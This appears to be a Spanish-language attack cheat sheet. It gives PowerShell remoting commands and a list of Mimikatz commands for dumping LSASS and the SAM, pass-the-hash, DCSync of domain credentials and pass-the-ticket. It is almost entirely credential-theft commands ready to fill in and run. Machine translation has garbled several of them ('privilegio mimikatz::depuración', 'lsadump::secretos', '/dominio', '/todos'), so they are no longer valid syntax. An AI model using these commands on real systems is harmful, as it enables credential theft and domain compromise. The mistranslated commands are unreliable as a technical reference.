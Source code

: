 ```powershell
#Crear una nueva sesión
$sess = New-PSSession -ComputerName <NameOfComputer>

#Ejecutar comando en la sesión
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Verificar el resultado del comando para confirmar que tenemos una sesión interactiva
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

### Mimikatz

```powershell
#¡Los comandos están en formato Cobalt Strike!

#Volcar LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#Enumerar todos los tickets de Kerberos disponibles en memoria
mimikatz sekurlsa::tickets

#Volcar las credenciales locales de Terminal Services
mimikatz sekurlsa::tspkg

#Volcar y guardar LSASS en un archivo
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#Enumerar las MasterKeys en caché
mimikatz sekurlsa::dpapi

#Enumerar las claves AES de Kerberos locales
mimikatz sekurlsa::ekeys

#Volcar base de datos SAM
mimikatz lsadump::sam

#Volcar base de datos SECRETOS
mimikatz lsadump::secretos

#Inyectar y volcar las Credenciales del Controlador de Dominio
privilegio mimikatz::depuración
token mimikatz::elevar
mimikatz lsadump::lsa /inyectar

#Volcar las Credenciales del Dominio sin tocar el LSASS de DC y además de forma remota
mimikatz lsadump::dcsync /dominio:<DominioFQDN> /todos

#Volcar contraseñas antiguas y hashes NTLM de un usuario
mimikatz lsadump::dcsync /usuario:<DomainFQDN>\<usuario> /history

#Listar y volcar credenciales de Kerberos locales
mimikatz kerberos::lista /volcado

#Pase el billete
mimikatz kerberos::ptt <PathToKirbiFile>

#Listar sesiones TS/RDP
```